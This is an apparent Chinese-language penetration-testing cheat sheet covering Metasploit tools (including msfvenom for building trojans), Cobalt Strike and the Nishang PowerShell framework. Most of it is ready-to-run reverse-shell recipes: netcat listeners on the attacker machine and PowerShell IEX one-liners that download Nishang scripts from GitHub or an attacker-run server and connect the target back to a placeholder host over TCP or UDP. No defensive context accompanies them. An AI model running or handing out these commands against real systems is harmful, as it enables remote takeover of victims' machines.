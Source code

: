 ## MSF

```
1.msconsole      管理生成的exp  管理反弹的shell  通过反弹的shell进行后渗透。。。。
2.msfvenom       制作木马
3.msfencode      对木马进行编码
4.Auxiliary      辅助模块
5.meterpreter    连接 
```

## Cobalt strike

这个就不用多说了

## Nishang反弹shell

[Nishang](https://github.com/samratashok/nishang )是一个基于PowerShell的攻击框架，集合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell

#### Reverse TCP Shell

- 攻击机：

```
nc -lvp [port]
```

- 目标机：

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com
/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [hots] -port [port]
```

或者将nishang下载到攻击者本地然后攻击者开一个http服务：

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://[host]/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [host] -port [port]
```

#### Reverse UDP Shell

- 攻击者开启监听：

  ```
  nc -lvup [port]
  ```

- 目标机：

  ```powershell
  powershell IEX (New-Object Net.WebClient).DownloadString('http://[host]/nishang/Shells/Invoke-PowerShellUdp.ps1');
  Invoke-PowerShellUdp -Reverse -IPAddress [host] -port [port]
  ```
